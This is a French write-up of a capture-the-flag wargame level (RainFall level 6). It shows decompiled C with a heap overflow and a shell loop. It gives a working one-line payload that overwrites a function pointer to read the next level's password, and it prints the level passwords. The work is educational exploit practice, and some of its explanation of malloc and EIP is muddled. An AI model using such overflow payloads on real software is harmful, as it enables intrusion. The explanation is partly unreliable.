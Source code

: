 # Level 6

pass : `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`

## Source :

```c
#include <stdlib.h>

void	n() {  // 0x08048454
	system("/bin/cat /hom/user/level7/.pass");
}

void	m(char *str) {  // 0x08048468
	puts("Nope");
}

void	main(int ac, char **av) {  // 0x0804847c
	void *(*ptr_function)(char *);  // esp+0x18
	char *buf;  // esp+0x1c

	buf = malloc(64);
	ptr_function = malloc(4);
	ptr_function = &m;
	strcpy(buf, av[1]);
	(*ptr_function)(buf);
}
```

## Recherche :

> On va essayer de faire segfaut le programme jusqu'à ce que l'`EIP` soit remplacée par l'addresse de `n` (`0x08048454`)

### Malloc exploitation

On écrit un petite boucle :

```sh
for((i=64; i<80; i++)); do echo "index $i"; ./level6 `(perl -e 'print "A"x('$i')."\x54\x84\x04\x08"')` ;done
```

```sh
index 71
Segmentation fault (core dumped)
index 72
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
index 73
Segmentation fault (core dumped)
index 74
Segmentation fault (core dumped)
```

### Explication

En fait, ce qu'on fait ici est simple :

Malloc utilise une structure pour enregistrer nos informations alouées, pour un tronçon (chunk) aloué, on utiliser 4 bytes, 3 pour la taille allignée à 8, et le dernier pour le status (si le chunk est free ou non).

Même si l'on utilise seulement 4 bytes, la structure en prendra 8 pour être sûr de garder un allignement correct avec les pages de mémoire (memory pages).

![](https://www.win.tue.nl/~aeb/linux/hh/malloc.png)

Donc dans notre cas, on écrit au total 76 bytes :

- `64` pour le premier appel de `malloc()`

- `4` pour réécrire les information du chunk

- `4` autres pour réécrire le reste de la structure de malloc nécessaire pour l'alignement

- `4` pour remplir le second appel à `malloc()`, qui va être exécuté

  On arrive bien à notre offset de `72`.

## Exploit :

```shell
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72+"\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

L'`EIP` à bien été remplacé par notre valeur avec un offset de 72. Et on a trouvé le pass pour le level suivant : `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`

## Documentation :

- [Heap execution exploitation](https://www.win.tue.nl/~aeb/linux/hh/hh.html#toc11.1)

